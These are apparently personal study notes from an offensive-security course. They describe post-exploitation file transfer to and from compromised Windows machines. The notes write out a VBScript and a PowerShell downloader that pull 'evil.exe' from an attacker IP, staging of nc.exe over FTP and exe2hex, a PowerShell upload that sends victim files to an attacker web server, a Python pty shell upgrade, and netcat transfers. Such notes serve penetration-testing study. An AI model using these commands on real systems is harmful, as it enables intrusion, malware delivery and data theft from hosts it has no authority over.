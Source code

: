 do not install new tool, use native tools

# pure-ftpd
//install on kali
sudo apt update && sudo apt-y install pure-ftpd

# non-interactive shells
lack job control, su support, etc. or any feedback on what we are doing

* ``ls`` command not interactive
* ``ftp`` is an interactive program (requires user interaction to complete)
* go get interactive shell:
``python -c "import pty;pty.spawn('/bin/bash')"``

# windows 
## File transfer via FTP
* in our kali place this binary: ``sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/``
* restart ftp: ``sudo systemctl restart pure-ftpd``
* on target windows system: transfer file of *ftp.txt* by typing: ``ftp -v -n -s:ftp.txt`` should be the kali ip, *kali* is the ftp pw in this file
* The ftp -s option accepts a text-based command list that effectively makes the client noninteractive.

## Windows Downloads Using Scripting Languages
### older windows systems
#### typing following commands in a windows system's cmd
``` c
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
#### execute wget
* use (file)[scripts\filedownload\wget.vbs] to get download a file
* cpy the wget on linux by ``sudo cp /usr/share/windows-resources/binaries/wget.exe /var/www/html/``
* start apache
* execute command ``cscript wget.vbs http://10.11.0.4/evil.exe evil.exe``

## newer windows system with powershell
### install wget
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
more on offsecs slides

### decreasing file size
compresses file by 50%
``sudo upx -9 nc.exe``

## file downloads via e2ehex and powershell
* decreate file size (see previous comment)
* execute script: ``exe2hex -x nc.exe -p nc.cmd``
* generates a nc.cmd via hex code
* copy commands from nc.cmd in the clipboard by: ``cat nc.cmd | xclip -selection clipboard``
* we can paste i then into our windows machine cmds (bind shell) 

## getting data from a client to our kali machine (via http post request)
* create [upload.php](scripts/filetransfers/upload.php) file in ``var/www/html/upload.php``
* create uploads folder in apache ``sudo mkdir /var/www/uploads``
* modifying folder permissions: ``ps -ef | grep apache`` by giving the www-data user owner and write permissions on oploads folder: ``sudo chown www-data: /var/www/uploads``
* On windows machine run: ``powershell(New-Object System.Net.WebClient).UploadFile('http://192.168.0.9/upload.php', 'fileToTransfer.jpg')``

# for very old windows machines
* first install an configure tft servers in kali
=> see slides

# linux and netcat
* on a system open bind shell for a specific file f.e.: `` nc.exe -nlvp 4445 > C:\Users\offsec\binary.exe``
* on kali we send our binary.exe to our windows client: ``nc -w 3 10.11.0.22 4455 < binary.exe``
